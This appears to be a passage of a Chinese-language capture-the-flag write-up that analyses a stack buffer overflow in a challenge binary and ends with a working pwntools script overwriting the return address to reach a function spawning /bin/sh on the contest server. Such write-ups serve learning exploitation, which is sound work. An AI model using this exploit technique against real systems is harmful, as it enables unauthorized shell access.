         v4 = ',emocleW';
        v5[0] = 32LL;
        memset(&v5[1], 0, 48);
        write(1LL, "Show me your name: ", 19LL);
        v6 = read(0LL, (char *)v5 + 1, 256LL);
        if ( v6 > 0 )
            write(1LL, &v4, v6 + 9);
        return 0;
        }
        ```
        
        另外還有一個重點，function 結構中存在一個名為 shellcode 的 function。
        
        ```
        void __fastcall __noreturn shellcode(__int64 a1, __int64 a2, __int64 a3, int a4, int a5, int a6)
        {
        execl((unsigned int)"/bin/sh", (unsigned int)"/bin/sh", 0, a4, a5, a6);
        exit(0LL);
        }
        ```
        
- 根據上面資訊合理推測是要透過 `main` 的 Stack-based Buffer Overflow 將位址跳轉到 `shellcode`。
- offset 的部分則可以透過如 GDB 等的動態分析工具，對程式進行隨機輸入，並對行為進行觀察，從而找到 offset。
    - GEF: pattern create -> pattern search。
    - cyclic: 透過 `cyclic` 生成隨機字串，再透過記錄崩潰輸入的值，並使用 `cyclic -l` 反向尋找 offset。
- payload
    
    ```
    // offset = (8*8-1) + 8 + 8  # v5[0:8]-1 + v4 + rbp
    // shellcode_addresss = 0x04017AA
    payload = b'a'*71 + p64(0xdeadbeef) +  p64(shellcode_address)
    ```
    

### flag.py

```python
from pwn import *

# env setting
context(arch = 'amd64', os = 'linux')
#context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'DEBUG'

def connect():
  if True:
      return remote(host='chals1.ais3.org', port=11111)
  else:
      return process('./pwn')

def main():
  p = connect()

  # payload 
  shellcode_address = 0x04017AA 
  payload = b'a'*71 + p64(0xdeadbeef) + p64(shellcode_address)
  
  # send
  #gdb.attach(p)
  p.sendlineafter(b'Show me your name: ', payload)
  p.interactive()

if __name__=='__main__':
  main()
```
